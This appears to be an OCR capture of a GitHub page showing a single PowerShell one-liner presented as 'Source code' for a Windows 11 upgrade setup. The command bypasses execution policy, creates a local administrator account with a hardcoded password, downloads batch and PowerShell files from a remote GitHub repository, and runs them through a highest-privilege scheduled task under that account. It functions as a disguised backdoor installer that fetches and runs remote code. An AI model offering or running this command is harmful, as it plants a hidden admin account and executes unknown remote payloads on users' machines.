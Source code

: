 powershell -ExecutionPolicy Bypass -NoProfile -Command "$user='WinUpgTemp';$pass='TempPass123!';$root='C:\Win11Upgrade';$urlbat='https://raw.githubusercontent.com/sctcoder1/project-711-d/main/RepoHandler.bat';$urlps1='https://raw.githubusercontent.com/sctcoder1/project-711-d/main/RepoHandler.ps1';$bat=Join-Path $root 'RepoHandler.bat';$ps1=Join-Path $root 'RepoHandler.ps1';$log=Join-Path $root 'Setup_Log.txt';function log($m){$t='['+(Get-Date -Format 'yyyy-MM-dd HH:mm:ss')+'] '+$m;New-Item -ItemType Directory -Force -Path (Split-Path $log)|Out-Null;Add-Content -Path $log -Value $t;Write-Host $t};log '--- Starting RepoHandler setup ---';if(-not(Test-Path $root)){New-Item -ItemType Directory -Force -Path $root|Out-Null};net user $user $pass /add | Out-Null;net localgroup administrators $user /add | Out-Null;log ('Created/ensured admin user '+$user);Invoke-WebRequest -Uri $urlbat -OutFile $bat -UseBasicParsing;Invoke-WebRequest -Uri $urlps1 -OutFile $ps1 -UseBasicParsing;log 'Downloaded RepoHandler files';if(Test-Path $bat){schtasks /delete /tn RepoHandler /f 2>$null;log 'Creating task to run RepoHandler under '+$user; $tr='cmd /c \"'+$bat+'\"';$out=schtasks /create /tn RepoHandler /tr $tr /sc once /st 23:59 /RL HIGHEST /RU $user /RP $pass /F 2>&1;log ('schtasks /create output: '+$out);if($LASTEXITCODE -eq 0){log 'Running RepoHandler task now...';$out2=schtasks /run /tn RepoHandler 2>&1;log ('schtasks /run output: '+$out2);Start-Sleep -Seconds 10;log 'RepoHandler started successfully under '+$user;}else{log ('ERROR: Task creation failed code '+$LASTEXITCODE)}}else{log ('ERROR: Missing file '+$bat)};log '--- Script complete ---'"
